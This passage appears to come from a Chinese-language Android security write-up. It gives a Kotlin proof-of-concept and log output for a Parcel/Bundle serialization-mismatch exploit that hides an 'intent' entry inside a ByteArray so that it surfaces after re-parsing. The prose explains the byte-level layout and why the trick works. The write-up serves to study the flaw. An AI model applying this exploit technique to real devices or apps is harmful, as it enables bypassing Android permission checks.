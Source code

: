 ```kotlin
p.writeString("\u000d\u0000\u0008") // 0d00 0000 0800 length=3
p.writeInt(Type.VAL_BYTEARRAY)   //000d

p.writeInt(-1) // hidden data length
val hiddenStartPos = p.dataPosition()
p.writeString("intent")
p.writeInt(Type.VAL_INTEGER)
p.writeInt(42)
val hiddenEndPos = p.dataPosition()
val triggerLen = hiddenEndPos - hiddenStartPos
p.setDataPosition(hiddenStartPos - 4)
p.writeInt(triggerLen)
p.setDataPosition(hiddenEndPos)

// A2
p.writeString("BBBBBB")
p.writeInt(Type.VAL_NULL)

// Back-patch length && reset position
val endPos = p.dataPosition()
val length = endPos - startPos
p.setDataPosition(startPos - 8)
p.writeInt(length)
p.setDataPosition(0)
```

在上述 POC 中，我们明面上构造了一个含有 3 个元素的 Bundle，分别是:

* A0: Parcelable 类型，元素为我们带有漏洞的 Parcelable；
* A1: ByteArray 类型，长度可以通过记录dataPosition计算得到，ByteArray 的内容为隐藏的 Intent 元素；
* A2: NULL 类型；

其中关键的是 A1 的 key，在触发漏洞后，会被解析为第二个元素的元素类型和长度，即解析出来的内容为:

- 00 00 00 0d: 解析为键值对中的值类型，等于 VAL_BYTEARRAY(13)；
- 00 00 00 08: 解析为 ByteArray 长度，即 8 字节；注意这里额外的 0 是字符串写入时候 pad 出来的。

之所以是 8 字节，是为了把后面的长度字段吞掉，使得解析下一个元素可以直接到我们隐藏的 intent 中。

第三个元素 A2 只是用于占位，在第一次序列化时候有用，第二次时直接被我们隐藏的 intent 替代了。上述代码的运行结果如下:

```bash
I/ecool: A = Bundle(items = 3) length: 160
    	   => A(41) = VAL_PARCELABLE:com.ecool.test.Vulnerable{}
    	   => �(d0008) = VAL_BYTEARRAY:0600000069006e00740065006e00740000000000010000002a000000
    	   => BBBBBB(424242424242) = VAL_NULL:null
I/ecool: A.containsKey: false
I/ecool: B = Bundle(items = 3) length: 140
    	   => intent(696e74656e74) = VAL_INTEGER:42
    	   => null = VAL_BYTEARRAY:0d0000001c000000
    	   => A(41) = VAL_PARCELABLE:com.ecool.test.Vulnerable{}
I/ecool: B.containsKey: true
```
